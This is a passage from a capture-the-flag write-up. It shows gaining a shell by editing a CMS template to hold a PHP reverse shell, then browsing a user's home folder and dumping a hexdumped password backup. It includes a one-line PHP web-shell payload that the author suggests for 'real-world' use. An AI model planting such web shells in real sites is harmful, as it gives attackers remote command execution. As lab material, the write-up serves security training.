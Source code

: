 `Extensions -> Templates -> Templates --> Select the Theme in Use --> Edit Index.php for a PHP reverse shell` (https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Not the most stealthy option I know. But this is a CTF XD

*If it were a real-world scenario though,* I would have set up a much more subtle payload like `php exec($_REQUEST["cmd"]);`

![revvy](revvy.jpg)

*After upgrading our shell to fully-interactive TTY,* we start checking the system...

### Browsing user home folders

We find the user `floris` on the system. And, *as we're browsing through his/her home folder,* we see two *non-standard* items:
1. a file called `password_backup` that we have read access to.
2. a folder called `admin_area` where only `root` and `floris` can see its contents.

![Floris-Home](Floris-Home.jpg)

### Reversing a hexdump and Decompressing multiple layers

so we take a look at the contents of `password_backup` and see what looks like a **hexdump**:

```
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48 
```
